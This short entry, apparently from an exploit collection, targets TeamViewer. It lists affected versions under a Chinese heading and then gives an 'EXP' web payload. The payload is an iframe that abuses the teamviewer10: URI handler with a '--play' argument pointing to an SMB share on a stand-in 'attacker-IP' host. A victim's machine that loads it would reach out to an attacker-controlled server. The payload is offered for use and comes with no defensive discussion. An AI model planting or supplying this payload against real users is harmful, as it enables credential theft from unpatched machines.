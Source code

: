 <languages  />

影響版本
--------

    TeamViewer < 8.0.258861 TeamViewer < 9.0.28860 TeamViewer < 10.0.258873 TeamViewer < 11.0.258870 TeamViewer < 12.0.258869 TeamViewer < 13.2.36220 TeamViewer < 14.2.56676 TeamViewer < 15.8.3

EXP
---

    （iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'）
